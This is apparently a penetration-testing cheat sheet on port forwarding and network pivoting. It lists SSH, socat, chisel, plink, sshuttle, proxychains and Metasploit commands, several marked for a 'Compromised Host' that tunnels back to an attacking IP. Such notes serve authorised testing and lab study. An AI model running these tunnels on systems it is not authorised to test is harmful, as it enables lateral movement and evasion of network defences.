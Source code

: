 # Port Fowarding and Proxying
## Port Fowarding
### SSH Tunneling/Local Port Forwarding  
```
ssh user@<ip> -p port -L 8001:127.0.0.1:8080 -fN
```

### SSH Remote Port Forwarding
```
ssh -R 5555:127.0.0.1:5555 -p2222 <user>@<ip>
```

### Socat - Port Forward
```
./socat.exe TCP-LISTEN:8002,fork,reuseaddr TCP:127.0.0.1:8080
```

### chisel  - Remote Port Forward 
-> Your machine  
```
./chisel server -p <LISTEN_PORT> --reverse &
```

-> Compromised Host
```
./chisel client <ATTACKING_IP>:<LISTEN_PORT> R:<LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT> &
```

### Chisel - Local Port Forward
-> Compromised Host  
```
./chisel server -p <LISTEN_PORT>
```

-> Your Machine  
```
./chisel client <LISTEN_IP>:<LISTEN_PORT> <LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT>
```

### pklink - Remote Port Forward
```
cmd.exe /c echo y | plink.exe -ssh -l <user> -pw <password> -R 192.168.0.20:1234:127.0.0.1:3306 192.168.0.20
```

## Proxying - Network Pivoting
### sshuttle (Unix) - proxying  
```
sshuttle -r user@<ip> --ssh-cmd "ssh -i private_key" 172.16.0.0/24
```

### SSH + Proxychains
edit /etc/proxychains.conf with socks4 127.0.0.1 8080
```
ssh -N -D 127.0.0.1:8080 <user>@<ip> -p 2222
```
  
### chisel  - Reverse Proxy
-> Your Machine  
```
./chisel server -p LISTEN_PORT --reverse &
```
-> Compromised Host  
```
./chisel client <TARGET_IP>:<LISTEN_PORT> <PROXY_PORT>:socks
```

### chisel - Forward Proxy  
-> Compromised Host  
```
./chisel server -p <LISTEN_PORT> --socks5
```
-> Your Machine  
```
./chisel client <TARGET_IP>:<LISTEN_PORT> <PROXY_PORT>:socks
```

### metasploit - proxying 
```
route add <ip>/24 1
route print
use auxiliary/server/socks_proxy
run
```
